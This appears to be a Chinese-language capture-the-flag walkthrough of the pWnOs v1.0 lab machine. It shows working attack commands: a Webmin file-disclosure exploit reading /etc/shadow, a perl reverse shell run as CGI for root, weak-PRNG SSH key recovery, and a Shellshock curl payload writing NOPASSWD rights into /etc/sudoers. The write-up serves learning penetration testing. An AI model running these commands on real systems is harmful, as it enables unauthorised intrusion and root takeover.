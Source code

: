 # pWnOs_v1.0（√）

## nmap扫描  

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 e4:46:40:bf:e6:29:ac:c6:00:e2:b2:a3:e1:50:90:3c (DSA)
|_  2048 10:cc:35:45:8e:f2:7a:a1:cc:db:a0:e8:bf:c7:73:3d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open            Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
MAC Address: 00:0C:29:5E:18:C9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: ubuntuvm
|   NetBIOS computer name: 
|   Domain name: nsdlab
|   FQDN: ubuntuvm.NSDLAB
|_  System time: 2024-03-07T05:03:26-06:00
|_nbstat: NetBIOS name: UBUNTUVM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 3h00m00s, deviation: 4h14m34s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.69 seconds

```

## 目录扫描
![](img/2024-03-07-19-18-11.png)
![](img/2024-03-07-20-43-17.png)


## web渗透  

![](img/2024-03-07-19-07-51.png)
一点进来发现这个参数试着sql注入，根据warning发现这个是文件包含  
![](img/2024-03-07-19-09-23.png)  
```
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```
1000端口是个webmin cms  
![](img/2024-03-07-19-13-21.png)  
/php目录有一个phpmyadmin，但是需要账号密码，然后发现了css漏洞，暂时没什么用  
![](img/2024-03-07-20-05-16.png)  
//就在我没有思路的时候，才开始看视频  
![](img/2024-03-07-20-33-47.png)  
webmin利用这个漏洞，英文的意思是任意文件泄露，因为我之前找了很久都没有找到webmin的版本号，这么多exp自然不知道利用哪个，但视频里直接根据exp描述而去尝试这些exp  
然后利用pl文件成功读取到/etc/passwd文件，同时利用webmin还能读取shadow文件  
```
perl 2017.pl 192.168.25.116 10000 /etc/shadow 0
```
![](img/2024-03-07-20-38-54.png)  
然后使用rockyou.txt破解这些hash，一个小技巧，靶机中的密码基本上会出现在rockyou.txt中，结果只有一个  
![](img/2024-03-07-20-53-21.png)  

## 获得初始shell

ssh连接尝试，提示报错，然后我们使用-o然后tab键查看需要的参数  
![](img/2024-03-07-20-58-53.png)  
![](img/2024-03-07-21-00-11.png)  

## 提权  

suid发现mtr，但其只是能读取文件  
![](img/2024-03-07-21-07-50.png)  
linux版本 2.6.22  
![](img/2024-03-07-21-11-53.png)  
通常内核漏洞提权最后考虑  
在我们之前通过webmin访问shadow文件时我们应该知道，webmin用户可能有特殊权限  
![](img/2024-03-07-21-23-58.png)  
这个时候我们需要反弹webmin shell  
```
cp /usr/share/webshells/perl/perl-reverse-shell.pl shell.cgi
```
这里将反弹shell脚本改成cgi后缀，然后使用perl执行  
```
perl 2017.pl 192.168.25.116 10000 /tmp/shell.cgi 0
```
之所以改成cgi后缀，是因为webmin是perl搭建的web程序，解释器只能解释cgi文件，如果上传pl后缀文件则不能收到反弹shell，监听即可获得root shell  
![](img/2024-03-07-21-39-43.png)

## 总结  

+ web页面很容易发现了第一个lfi
+ webmin的exp利用没能想到，因为不知道版本号就不知道该用哪一个
+ 虽然都是lfi，但是权限不同，以致可以访问shadow
+ 因为webmin的特殊权限，所以提权也应该想到这里
+ perl执行cgi文件也是初次了解到


# 知识拓展  

## lfi敏感文件读取  

在发现lfi漏洞之后除了/etc/passwd和/etc/shadow之后，好像就不知道哪些是敏感文件，在以前的打靶练习中，靶场会给这两种特殊情况：
+ 如果扫描端口出现filtered,那可能需要knock服务，然后访问/etc/knockd.conf解开  
+ 另一种特殊的就是log文件能够解析php，如ssh的/var/log/auth.log、apache的/var/log/apache/access.log等，然后直接写shell  

但是这仅仅是靶机会设立这样的入口，我们可以通过github一个叫 [Auto_wordlists](https://github.com/carlospolop/Auto_Wordlists)的项目去了解哪些是敏感文件，那么对于这个靶机，我们发现了四个账户，我们可以去读取/home/xxx/.ssh/authorized_keys，（这个是公钥，可以实现免密登录，私钥在管理员自己电脑上，公钥在服务器上，然后管理员通过私钥去和公钥进行匹配即可实现免密登录），然后通过伪随机数生成器碰撞私钥  

## 用公钥信息破解私钥  

首先searchsploit搜索prng（伪随机数生成器），视频里演示的是5622.txt，然后根据文本内容下载压缩包解压  
![](img/2024-03-08-16-24-16.png)  

```
grep -lr "AAAAB3NzaC1kC3MAAACBA0gZZMCD3Im5bRnA"
```
-l是列出文件内容中和字符串匹配的文件，-r是递归搜索，字符串是公钥截取的一小段  
然后再obama账户中成功匹配到公钥，去掉.pub后缀就找到了私钥  

## ssh登录参数  

使用密钥直接登录，并且根据提示添加了-oHostKeyAligorithms参数，但还是需要密码，证明私钥登录是失败的，我们就-vv参数可以看到更清楚的交互信息，  
![](img/2024-03-08-16-32-27.png)  
提示我们是公钥没有共同签名的支持，然后-oPubkey再按tab键提示，因为是加密类型不匹配，所以选择-oPubkeyAcceptedKeyTypes，然后成功登录  

## 内核漏洞提权  

前面我们已经发现了内核版本很低，应该可以使用内核漏洞提权，还需要注意一个点就是如果不能sudo那么suid也用不了，然后这个靶机可以使用5092.c进行编译提权  

## shellshock提权  

Shellshock是GNU Bourne Again Shell（BASH）中的一个漏洞，攻击者可以使用特制环境变量来运行任意命令。
```
bash --version
```
如果bash版本小于4.3那么很有可能有shellshock漏洞  
![](img/2024-03-08-20-15-18.png)  
```
env x='() { :; }; echo "It is a Vuln"' bash -c date
```
这是一条验证shellshock的语句，前面是固定的，注意空格，bash -c是启动一个新bash，date显示日期，验证存在之后，我们就需要通过shellshock可以执行任意命令配合webmin的高权限进行一个提权  
1. 先创建一个cgi文件，写入#/bin/bash让其能够执行bash命令，并赋予权限  
2. 访问之前的exp 2017.pl了解其漏洞利用逻辑是通过http:ip/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd这样的形式读取文件  
3. 我们知道读取文件的方式之后，通过在http包UA头写入shellshock exp，最终exp如下  

```
curl http://10.10.10.25:10000/unauthenticated/..%01/ ..%01/..%01/..%01/..%01/..%01/..%01/..%01/home/obama/RedteamNotes.cgi -A '() { :; }; /bin/echo "obama ALL=(ALL)NOPASSWD:ALL " >> /etc/sudoers'
``` 
通过url访问cgi，并且修改UA头（-A参数是UA头）然后执行shellshock漏洞，因为obama账户我们是私钥登录不知道密码，所以加上NOPASSWD参数，或者可以用vmware账户进行操作，最后sudo su即可提权  

## 总结  

算是学到了很多新东西，逐渐加深了对lfi的利用，并且利用shellshock提权算是一种新的提权方式  
